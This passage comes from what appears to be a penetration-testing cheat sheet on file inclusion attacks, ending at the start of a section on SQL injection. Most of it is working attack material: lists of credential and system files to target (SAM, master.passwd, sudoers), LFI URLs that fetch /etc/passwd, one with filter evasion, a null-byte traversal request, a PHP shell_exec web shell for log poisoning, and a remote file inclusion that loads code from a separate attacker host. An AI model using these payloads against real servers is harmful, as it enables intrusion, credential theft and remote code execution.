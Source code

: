     *   LFI Windows Files:  
        %SYSTEMROOT%\repair\system  
        %SYSTEMROOT%\repair\SAM  
        %SYSTEMROOT%\repair\SAM  
        %WINDIR%\win.ini  
        %SYSTEMDRIVE%\boot.ini  
        %WINDIR%\Panther\sysprep.inf  
        %WINDIR%\system32\config\AppEvent.Evt

    *   LFI OSX Files:  
        /etc/fstab  
        /etc/master.passwd  
        /etc/resolv.conf  
        /etc/sudoers  
        /etc/sysctl.conf

    *   LFI - Download passwords file  
        _http://$ip/index.php?page=/etc/passwd_  
        _http://$ip/index.php?file=../../../../etc/passwd_

    *   LFI - Download passwords file with filter evasion  
        _http://$ip/index.php?file=..%2F..%2F..%2F..%2Fetc%2Fpasswd_

    *   Local File Inclusion - In versions of PHP below 5.3 we can terminate with null byte  
        GET /addguestbook.php?name=Haxor&comment=Merci!&LANG=../../../../../../../windows/system32/drivers/etc/hosts%00

    *   Contaminating Log Files `<?php echo shell_exec($_GET['cmd']);?>`

    *   For a Remote File Inclusion look for php code that is not sanitized and passed to the PHP include function and the php.ini file must be configured to allow remote files

        _/etc/php5/cgi/php.ini_ - "allow_url_fopen" and "allow_url_include" both set to "on"

        `include($_REQUEST["file"].".php");`

    *   Remote File Inclusion

        `http://192.168.11.35/addguestbook.php?name=a&comment=b&LANG=http://192.168.10.5/evil.txt`

        `<?php echo shell\_exec("ipconfig");?>`

*   ## [](#database-vulnerabilities)Database Vulnerabilities

    *   Playing with SQL Syntax A great tool I have found for playing with SQL Syntax for a variety of database types (MSSQL Server, MySql, PostGreSql, Oracle) is SQL Fiddle:

    [http://sqlfiddle.com](http://web.archive.org/web/20171113221652/http://sqlfiddle.com/)

    Another site is rextester.com:

    [http://rextester.com/l/mysql_online_compiler](http://web.archive.org/web/20171113221652/http://rextester.com/l/mysql_online_compiler)

    *   Detecting SQL Injection Vulnerabilities.

        Most modern automated scanner tools use time delay techniques to detect SQL injection vulnerabilities. This method can tell you if a SQL injection vulnerability is present even if it is a "blind" sql injection vulnerabilit that does not provide any data back. You know your SQL injection is working when the server takes a LOooooong time to respond. I have added a line comment at the end of each injection statement just in case there is additional SQL code after the injection point.
